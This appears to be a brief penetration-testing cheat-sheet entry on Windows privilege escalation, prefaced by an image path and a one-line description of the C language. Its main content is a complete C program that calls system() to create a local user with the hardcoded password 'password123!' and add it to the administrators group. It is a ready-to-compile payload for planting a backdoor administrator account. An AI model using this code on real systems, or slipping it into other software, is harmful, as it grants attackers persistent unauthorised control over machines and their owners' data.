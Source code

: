 > C is a general-purpose computer programming language. It was created in the 1970s by Dennis Ritchie, and remains very widely used and influential.


#Windows_Privilege_Escalation 

`adduser.c` binary to add a user E.g., `hentaisalesman` to `administrators` local group
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user hentaisalesman password123! /add");
  i = system ("net localgroup administrators hentaisalesman /add");
  
  return 0;
}
```